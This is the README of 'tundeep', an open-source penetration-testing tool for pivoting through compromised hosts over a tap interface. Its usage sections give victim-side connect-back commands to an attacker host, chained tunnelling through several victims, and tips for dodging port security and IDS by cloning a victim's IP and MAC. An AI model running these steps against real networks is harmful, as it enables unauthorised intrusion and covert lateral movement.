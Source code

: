 # TUNDEEP
## Adam Palmer


    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>.


* __Name__:         tundeep v1.1
* __Author__:       [Adam Palmer (npn)](https://www.adampalmer.me/) (adam@adampalmer.me)
* __README__:       https://www.adampalmer.me/iodigitalsec/tundeep/

  > Source: http://www.cis.syr.edu/~wedu/seed/Labs/VPN/files/simpletun.c  
  > Source: Various stackoverflow posts  
  > Source: Libpcap documentation  
  > Source: Beej's Network Guide  
  > Source: http://www.logix.cz/michal/devel/ (getaddrinfo)  

Please direct questions, comments, criticism and bug reports to adam@adampalmer.me. 

### Contents:

  1. Purpose
  2. Installation
  3. Scenario
  4. Usage
    4a. TCP Mode
    4b. UDP Mode
    4c. IPv6 Mode
    4d. Misc
  5. Changelog
  6. The future

### 1. Purpose:

  This is a network tunnelling tool. 

  For pivoting/tunnelling deeper into a target network, we have a couple of options;

  * Option 1 - Metasploit's `autoroute` module. Disadvantages: Works great, but only works from within metasploit. No use for running external tools.
  * Option 2 - Metasploit's portfwd module/iptables/simpleproxy. Disadvantages: Only forwards specified single layer 3 UDP/TCP ports.
  * Option 3 - Proxychains/ssh `-D SOCKS` tunnelling. Disadvantages: Proxychains is a hack in itself, and only supports layer 3 TCP.
  * Option 4 - Implement a VPN server and set up bridging on your victim. Disadvantages: disasterous idea

  This tool presents a `tap0` interface for your target network on your local machine. On the target end, it does not require `drivers/kernel`
modules to be installed beyond libpcap. This tool supports ARP and ARP scanning/poisoning on your target network no matter how many layers deep you tunnel. 

  This tool should support any layer 2 ethernet protocol. Code has been borrowed from various sources including those above. As we have a tap interface now bound to the
remote network, we are able to run any tools that we wish, as if we were directly connected to the target network.


### 2. Installation:

  `-D_LINUX` adds tun/tap support in the makefile, `-D_COMPRESS` adds zlib compression support

  Tested on Debian Squeeze 32bit and 64bit, and Windows XP Pro. This tool requires `libpcap`/`winpcap`

  On Windows, you'll need `Cygwin` and all the relevant tools such as `libc`, `make`, `gcc`.

  On Windows:

  * [Untested] Guide to winpcap silent install: http://paperlined.org/apps/wireshark/winpcap_silent_install.html
  * [Tested] libwpcap support in cygwin: http://mathieu.carbou.free.fr/wiki/?title=Winpcap_/_Libpcap

  To compile and run on Kali:

      apt-get install zlib1g-dev libpcap-dev
      git clone https://github.com/iodigitalsec/tundeep
      cd tundeep
      make
      ./tundeep

  You can change debug levels via the `DEBUG` variable in `def.h`


### 3. Scenario:

  `[Attacker 192.168.200.40 (eth0)]-----[192.168.200.41(eth0) VICTIM 1 10.0.0.5(eth1)]------[10.0.0.10(eth0) VICTIM2 10.10.10.20(eth1)]--------[10.10.10.21(eth0) VICTIM3]`

  This tool will bring up a `tap0` interface on the attacking machine, tunnelled via packet injection on the remote end to the target network.

  We have two main strategies. Looking at the scenario above, our first step is to pivot onto the `10.0.0.5` interface of Victim 1. We have two options:

  1. Match Victim1's eth1 IP and MAC exactly on our own `tap0` interface specifying `-x`, `-y` and `-u` on the attacking machine. This is the least detectable as it does not bring up any new IP or MAC addresses on the target network and we can evade port security. It may however interfere with legitimate traffic on Victim 1. 
  2. The second option is to assign our own IP and/or MAC to be tunnelled through. This is going to be more reliable, but less stealthy and may trigger IDS/switch/port security alerts.

  The next consideration is that all traffic that Victim1 receives on eth1 is tunnelled back to us. This will create network congestion at minimum, and service unavailability or worse. 
  It's not advisable to run this on a heavy traffic production environment. Also consider where you run this tool from. Running this where the connection between attacker and victim1's `eth0` is slower than victim1's eth1 and it's peers is a bad idea.

  The final option if this is really a problem, is using the bpf. I can think of two useful cases for the bpf:
  1. Specify a new IP to bring up on the target network via `-x`/`-y` and on both sides use `-b "host $ip"`.
  2. Retain the Victim's IP, and use `"tcp port $port"` on both sides to specify a particular port you wish to tunnel through.


### 4. Usage:

#### 4a. TCP Mode:


On our attacking machine -
1.
       tundeep -s -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02

	Here we will bring up a tap0 interface on our machine with the same MAC (-u) and IP/Mask (-x/-y) as the network we want to pivot to (Victim1's eth1).

	On our victim 1: `tundeep -i eth1 -h 192.168.200.40 -p 5000 -c`	Connect back to our attacker on port 5000.

	We can now `ping 10.0.0.10`, i.e. victim2 directly from our machine. TCP/UDP/ICMP and ARP have all been tested. 

2. 	Now to tunnel deeper. On our attacking machine:

	    tundeep -s -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac

	Here we will bring up a tap1 interface on our attacking machine, with the same MAC/IP as Victim 2's eth1
	On our victim 2: `tundeep -i eth1 -h 10.0.0.5 -p 5001 -c`

	Now we can `ping 10.10.10.21`, i.e. victim 3. We can continue tunnelling as deep as we need.


#### 4b. UDP Mode:

  There's no client and server side. Each side needs it's endpoint specified via -e and it's listen IP via `-h`. 
  To use the scenarios above. On our side:

  1.
         tundeep -d -e 192.168.200.41 -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02

      and on the victim:

         tundeep -d -e 192.168.200.40 -i eth1 -h 0.0.0.0 -p 5000

  2.
          tundeep -d -e 10.0.0.10 -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac

     and on the victim:

          tundeep -d -e 10.0.0.5 -i eth1 -h 192.168.200.40 -p 5001

#### 4c. IPv6 Mode:

  There are two methods to utilize IPv6. The sniffing and injection portion works at layer 2 and is therefore IP version independant.
  Specifying -T on the tap node specifies IPv6 address usage. In that case -x specifies the IPv6 IP and -y specifies the prefix length.
  i.e. `./tundeep -T tap0 -h 0.0.0.0 -p 5000 -s -x fe80::80aa:2aff:fe0b:383f -y 64`
  Using this option, we can tunnel IPv6 over an existing IPv4 socket/network.

  The next option is in tunneling IPv4 over an existing IPv6 network, `-6` option puts the socket into IPv6 mode:

    `./tundeep -T tap0 -h "::0" -p 5000 -s -x 192.168.5.5 -y 255.255.255.0`

  Of course, -T and -6 can be used together for full IPv6.


#### 4d. Misc:

### 5. Changelog:

  tundeep v0.1a (2013-09-10):
  - Initial Release

  tundeep v0.2a (2013-09-16):
  - IPv6 support (-6, -T)
  - Compression support (-C) - must be enabled on both sides
  - Better error checking and debugging
  - Misc bug fixes and code improvements
  - Makefile improvements to detect Cygwin/Linux without manual edits
  - README updates
  - Added default checksum feature (-K disables) - added overhead, improved reliability. Must be disabled on both sides

### 6. The Future:

Future release plans:
- Code cleanup
- MAC/IP mangling support
